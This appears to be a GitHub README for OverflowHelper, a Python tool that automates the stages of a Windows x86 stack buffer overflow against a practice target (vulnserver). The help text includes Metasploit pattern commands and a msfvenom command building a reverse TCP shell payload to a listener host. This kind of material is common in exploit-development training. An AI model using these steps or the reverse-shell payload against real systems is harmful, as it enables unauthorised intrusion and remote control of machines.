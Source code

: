 # OverflowHelper
OverflowHelper aids in buffer overflow development on Windows x86 architecture. This script was tested on vulnserver on 32-bit a Windows 7 machine.

## Usage:

Clone repository:
```
git clone https://github.com/rhuss623/OverflowHelper.git
```

Change permissions:
```
cd OverflowHelper
chmod u+x overflow_helper.py
```

Execute script with arguments (described in "Help")
```
python overflow_helper.py
```
Further instructions are enumerated in the "help" instructions (provided below). 

### Note 
Several sections of the script require hard-coded revision, including:
The subtraction of bad characters frrom the badchars payload in program #4 and the final shell payload in program #6 

## Help:

Here follows the "help" instructions, accessible via `-h`


Buffer Overflow Helper

positional arguments:
  host              Remote target host, e.g. 10.10.1.14
  port              Remote target port, e.g. 9999
  function          Function used in buffer overflow attempt, e.g. TRUN
  program           Enter a number, 1-6, as argument: 
  ```
                    
                    1. Fuzzing 
                    2. Identifying Offset 
                    	REQUIRES -pattern 
                    3. Overwriting EIP 
                    	REQUIRES -offset
                    4. Identify Bad Characters 
                    	REQUIRES -offset
                    5. Return Address 
                    	REQUIRES -offset && -ret
                    6. Final Payload 
                    	REQUIRES -offset && -ret && -pay
                    
                    ********************************
                    Suggested additional resources:
                    
                    Pattern creation (Identifying offset):
                    	pattern_create.rb
                    	pattern_offset.rb
                    
                    Locating return address:
                    	mona.py
                    	nasm_shell.rb
                    
                    Creating payload:
                    	msfvenom 
                    ********************************
                    
                    Happy Hacking you Hackney Hip-Swaying Hokey Pokers :)
                    


optional arguments:
  -h, --help        show this help message and exit
  -pattern PATTERN  Use w/ PROGRAM 2

                    
                    Pattern created using pattern-create.rb
                    
                    On kali, this is the output from: 
                    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number from fuzzing phase> 
                    
                    To identify the offset, enter the characters in EIP into:
                    
                    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <number> -q <EIP characters>
                    
  -offset OFFSET    Use w/ PROGRAMS 3, 4, 5, and 6
                    
                    Offset value: e.g. 2020
                    
  -ret RET          Use w/ PROGRAMS 5 and 6
                    
                    Enter return address as it will be entered in EIP
                    
                    e.g.,for return address 625011af, one might enter \\xaf\\x11\\x50\\x62
                    
  -pay PAY          Use w/ PROGRAM 6
                    
                    Enter shellcode
                    
                    e.g. Output from command:
                    
                    msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.147 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "<INSERT BAD CHARS HERE e.g. null byte: \x00>"
                    
  -nops NOPS        Use w/ PROGRAM 6
                    
                    Enter number of nops preceding payload, e.g. 32
                
  ```
